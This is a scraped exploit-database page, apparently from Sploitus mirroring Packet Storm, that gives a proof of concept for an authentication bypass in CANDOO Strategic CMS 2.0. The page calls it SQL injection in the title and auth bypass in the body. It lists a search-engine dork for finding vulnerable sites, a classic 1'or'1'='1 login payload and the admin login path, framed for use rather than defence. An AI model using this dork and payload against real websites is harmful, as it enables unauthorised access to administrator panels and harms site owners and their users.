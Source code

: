 ```yaml
---
title: CANDOO Strategic CMS 2.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173362&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-12
fetch_date: 2025-10-04T11:53:51.090768
---
```


# CANDOO Strategic CMS 2.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CANDOO Strategic CMS 2.0 SQL Injection

2023-07-11 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173362
====================================================================================================================================
| # Title : CANDOO Strategic CMS V2.0 Auth By pass vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 66.0.2(64-bit) |
| # Vendor : https://www.candootech.com/ |
| # Dork : news2.php?newsno= |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine .

[+] Use Payload User & PAss : 1'or'1'='1

[+] http://127.0.0.1/harvardvisioncom/admin/login.php

Greetings to :=========================================================================================================================
jericho * Larry W. Cashdollar * brutelogic* shadow_00715 *9aylas*djroot.dz*LiquidWorm*Hussin-X*D4NB4R *ViRuS_Ra3cH *yasMouh* CraCkEr |
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
